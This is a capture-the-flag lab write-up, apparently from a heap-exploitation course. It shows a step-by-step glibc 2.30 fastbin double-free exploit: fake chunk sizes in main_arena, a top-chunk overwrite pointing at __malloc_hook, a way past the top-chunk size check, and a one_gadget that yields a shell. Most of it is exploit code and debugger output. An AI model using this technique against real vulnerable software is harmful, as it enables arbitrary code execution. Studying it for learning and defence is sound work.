 ## Attacking fastbin and avoid 0x70 protection
*****************************************
### First Fastbin

1.- Write fake size
```
malloc(24,p64(0x61))
```
![imagen1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen1.png)

2.- Write fake size in main arena
```
malloc(24,'C'*48)
malloc(24,'D'*48)
```
![imagen2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen2.png)

### Second Fastbin for link fake chunk in fastbins list

3.-Fastbin
```
chunk_J=malloc(0X58,'C'*48)
chunk_K=malloc(0x58,'D'*48)
free(chunk_J)
free(chunk_K)
free(chunk_J)
```
![imagen3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen3.png)

4.- So now we can write what we want to link
```
malloc(0x58, p64( libc.sym.main_arena + 0x20 ))
```

![imagen4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen4.png)

5.- Move fake chunk to the fastbins and put it on the head of 0x60 fastbins
```
malloc(0x58,b'L'*8)
malloc(0x58,b'M'*8)
```
![imagen5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen5.png)

6.- Write in main arena...

To write 0x61 in the main arena and match with 0x60 fastbin we allocate 0x48 bytes instead of 0x24 and we'll have the target in 0x60 fastbins and in main arena we will see the fake chunk crafted with size field and foreword pointer.

![imagen6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen6.png)

Requests a chunk of 0x60 size to write in the main arena but before libc will check that the size field of fake chunk is in the range allowed for 0x60 fastbins, thats why we write the 0x61, if we request other 0x60 chunk will give us our fake chunk and we can write in main_arena.

```
malloc(0x58,b'N'*8)
```


![imagen7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen7.png)


7.- Overwrite top chunk pointer with malloc_hook

The offset of top chunk is 48 bytes...

![imagen9.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen9.png)

```
malloc(0x58,b'Y'*48+p64(libc.sym.__malloc_hook -16))
```

![imagen10.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen10.png)

Okey, so if we request a chunk that is not in fastbins malloc will return us a chunk from top chunk.

![imagen11.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen11.png)

8.- Bypass top chunk mitigation

We are using glibc 2.30 for this challange and size version 2.29 top chunk mitigation was added

```
pwndbg> backtrace
pwndbg> f 4
pwndbg> context code
```

![imagen12.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen12.png)

```
pwndbg>p/x av->system_mem
$1 = 0x21000
```

We can go a little further back and take advantage of the alignment that is not checked...

![imagen13.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen13.png)

Great, this size is a size allowed, if request a chunk ...

```
malloc(0x28,b'Y'*19+p64(0xdeadbeef))
malloc(0x28,b'')
```

![imagen14.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen14.png)

9.- One gadget

```
malloc(0x28,b'Y'*19+p64(libc.address + 0xe1fa1))
malloc(0x28,b'')
```

![imagen15.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen15.png)

Is taking 'LLLLLLLLDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD' as parameter and the execution fails, but it is something we control, maybe if we pass other argument

![imagen16.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen16.png)

Let's change the line: 'malloc(0x58,b'L'*8)' to 'malloc(0x58,b'-s\0')'

![imagen17.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen17.png)

and shell!

## References

Max Kamper, Linux Heap Exploitation - Part 1, Udemy 4(12)